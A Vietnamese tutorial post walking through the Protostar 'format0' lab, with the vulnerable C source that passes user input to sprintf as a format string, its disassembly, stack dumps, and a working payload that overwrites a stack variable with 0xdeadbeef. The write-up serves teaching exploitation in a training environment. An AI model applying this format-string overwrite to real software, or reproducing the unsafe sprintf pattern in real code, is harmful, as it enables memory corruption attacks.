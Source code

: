 ```yaml
---
layout: post
title: format0
---
```


Trong bài này, chúng ta sẽ tìm hiểu một cách exploit mới dựa vào formatted string (chuỗi được định dạng). Formatted string được dùng khá nhiều trong C/C++ với các hàm như `printf` and `sprintf`. Các hàm này là kiểu hàm có số lượng tham số không cố định (variable arguments, hay varargs) và có thể thay đổi giá trị trên bộ nhớ, do đó, nếu không được dùng đúng cú pháp sẽ khiến bộ nhớ bị thay đổi trái với mong đợi và dẫn tới nhiều hậu quả.

Sau đây là source code và asm code của chương trình format0.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
```asm
0x080483f4 <vuln+0>:    push   ebp
0x080483f5 <vuln+1>:    mov    ebp,esp
0x080483f7 <vuln+3>:    sub    esp,0x68
0x080483fa <vuln+6>:    mov    DWORD PTR [ebp-0xc],0x0
0x08048401 <vuln+13>:   mov    eax,DWORD PTR [ebp+0x8]
0x08048404 <vuln+16>:   mov    DWORD PTR [esp+0x4],eax
0x08048408 <vuln+20>:   lea    eax,[ebp-0x4c]
0x0804840b <vuln+23>:   mov    DWORD PTR [esp],eax
0x0804840e <vuln+26>:   call   0x8048300 <sprintf@plt>
0x08048413 <vuln+31>:   mov    eax,DWORD PTR [ebp-0xc]
0x08048416 <vuln+34>:   cmp    eax,0xdeadbeef
0x0804841b <vuln+39>:   jne    0x8048429 <vuln+53>
0x0804841d <vuln+41>:   mov    DWORD PTR [esp],0x8048510
0x08048424 <vuln+48>:   call   0x8048330 <puts@plt>
0x08048429 <vuln+53>:   leave
0x0804842a <vuln+54>:   ret
0x0804842b <main+0>:    push   ebp
0x0804842c <main+1>:    mov    ebp,esp
0x0804842e <main+3>:    and    esp,0xfffffff0
0x08048431 <main+6>:    sub    esp,0x10
0x08048434 <main+9>:    mov    eax,DWORD PTR [ebp+0xc]
0x08048437 <main+12>:   add    eax,0x4
0x0804843a <main+15>:   mov    eax,DWORD PTR [eax]
0x0804843c <main+17>:   mov    DWORD PTR [esp],eax
0x0804843f <main+20>:   call   0x80483f4 <vuln>
0x08048444 <main+25>:   leave
0x08048445 <main+26>:   ret
```

Hàm đầu tiên được xem xét trong bài này là `sprintf`. Hàm này có tham số đầu tiên là một biến (pointer), tiếp theo là một formatted string, theo sau đó là các tham số để thay vào formatted string. `sprintf` hoạt động bằng cách phân tích formatted string đưa vào, sau đó sinh ra một chuỗi mới sẽ được lưu vào biến tham số.

Tương tự như trong các bài về exploit stack trước đây.
1. Biến `target` được lưu trên stack với địa chỉ `ebp-0xc`. Biến này có 4 byte.
2. Biến `buffer` được lưu trên stack với địa chỉ `ebp-0x4c`. Biến này có 64 byte.
2 biến này lắm kề này trên stack. Do đó, về cơ bản, chúng ta sẽ cần một formatted string có thể sinh ra 68 byte, trong đó 4 byte cuối sẽ chứa giá trị mong muốn của `target`. Để exploit format0, formatted string sẽ như sau.

```bash
python -c "print '%064d\xef\xbe\xad\xde'"
```

Chuỗi sinh ra từ formatted string này sẽ gồm 64 ký tự như mong muốn (bản chất là dang số nguyên với các số 0 phía trước) và 4 byte cuối là 4 byte cần cho `target`.
Sau đây là bộ nhớ bắt đầu từ `esp`. Phân biệt theo màu <span style="color:springgreen">tham số sẽ dùng cho hàm sprintf</span>, <span style="color:aqua">buffer</span> và <span style="color:orangered">target</span>.

<pre class="memory">
0xbffff700:     <span style="color:springgreen">0xbffff71c</span>      <span style="color:springgreen">0xbffff978</span>      <span style="color:springgreen">0x080481e8</span>      0xbffff798
0xbffff710:     0xb7fffa54      0x00000000      0xb7fe1b28      <span style="color:aqua">0x00000001</span>
0xbffff720:     <span style="color:aqua">0x00000000</span>      <span style="color:aqua">0x00000001</span>      <span style="color:aqua">0xb7fff8f8</span>      <span style="color:aqua">0xb7f0186e</span>
0xbffff730:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0xb7ec6165</span>      <span style="color:aqua">0xbffff748</span>      <span style="color:aqua">0xb7eada75</span>
0xbffff740:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08049624</span>      <span style="color:aqua">0xbffff758</span>      <span style="color:aqua">0x080482ec</span>
0xbffff750:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x08049624</span>      <span style="color:aqua">0xbffff788</span>      <span style="color:orangered">0x00000000</span>
0xbffff760:     0xb7fd8304      0xb7fd7ff4      0xbffff788      0x08048444
</pre>

<pre class="memory">
0xbffff700:     <span style="color:springgreen">0xbffff71c</span>      <span style="color:springgreen">0xbffff978</span>      <span style="color:springgreen">0x080481e8</span>      0xbffff798
0xbffff710:     0xb7fffa54      0x00000000      0xb7fe1b28      <span style="color:aqua">0x30303030</span>
0xbffff720:     <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>
0xbffff730:     <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>
0xbffff740:     <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>
0xbffff750:     <span style="color:aqua">0x31303030</span>      <span style="color:aqua">0x31353433</span>      <span style="color:aqua">0x38323133</span>      <span style="color:orangered">0xdeadbeef</span>
0xbffff760:     0xb7fd8300      0xb7fd7ff4      0xbffff788      0x08048444
</pre>

Chúng ta đã sử dụng đến 3 tham số cho hàm `sprintf`. Tham số đầu tiên lưu tại `esp` là địa chỉ của biến `buffer`, tham số thứ 2 là địa chỉ của formatted string, và tham số thứ 3 là số dạng int sẽ được thay thế vào formatted string. Kiểm tra memory cho thấy sự trùng khớp giữa số int dạng byte là `0x080481e8` và số in ra dạng decimal có 0 phía trước sẽ là `0000000000000000000000000000000000000000000000000000000134513128`.

## Ref
```bash
user@protostar:~$ format0 $(python -c "print '%064d\xef\xbe\xad\xde'")
you have hit the target correctly :)
```
